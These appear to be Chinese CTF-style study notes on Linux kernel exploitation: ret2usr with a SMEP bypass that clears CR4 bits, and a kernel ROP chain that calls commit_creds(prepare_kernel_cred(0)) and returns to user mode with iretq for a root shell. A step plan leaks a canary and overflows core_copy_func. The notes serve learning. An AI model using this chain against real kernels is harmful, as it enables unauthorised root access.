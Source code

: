 复位寄存器

## ret2usr+bypass_smep

改变cr4寄存器第20 21位为0

用rop：

- 用与运算将 SMEP 与 SMAP 的两位给清除掉
- 直接给 cr4 赋值 `0x6f0` 也是可以的（通常关了以后都是这个值）

`swapgs_restore_regs_and_return_to_usermode` 来返回用户态

![image.png](image%205.png)

高版本内核无cr4指令，要手动添加

## 内核rop

有smep行不行？毕竟拿shell之前全程都在内核态

```c
    ropchain[i++] = POP_RDI_RET + offset;    
    ropchain[i++] = 0;    
    ropchain[i++] = prepare_kernel_cred;    
    ropchain[i++] = POP_RDX_RET + offset;    
    ropchain[i++] = POP_RCX_RET + offset; 
    // clear useless stack data    
    ropchain[i++] = MOV_RDI_RAX_CALL_RDX + offset;//pop_rcx    
    ropchain[i++] = commit_creds;//ret    
    ropchain[i++] = SWAPGS_POPFQ_RET + offset;    
    ropchain[i++] = 0;    
    ropchain[i++] = IRETQ + offset;    //或swapgs_restore_regs_and_return_to_usermode    
    ropchain[i++] = (size_t)get_root_shell;//此时页表寄存器还是指向内核映射表，但此地址不在内核映射表中，kpti开启时会报错    
    ropchain[i++] = user_cs;    
    ropchain[i++] = user_rflags;   
     ropchain[i++] = user_sp;    
     ropchain[i++] = user_ss;
```

```
1、保存返回用户态所需的寄存器信息
2、利用core_read leak canary
3、通过/tmp/kallsyms中的信息获取函数地址与计算ropgadget的偏移/*****/
4、利用core_copy_func函数存在的栈溢出控制内核程序流完成提权（commit_cred(prepare_kernel_cred(NULL))
并返回用户态执行shell（iretq）
```

在内核态触发漏洞，执行rop

## bypass kpti

## ret2dir
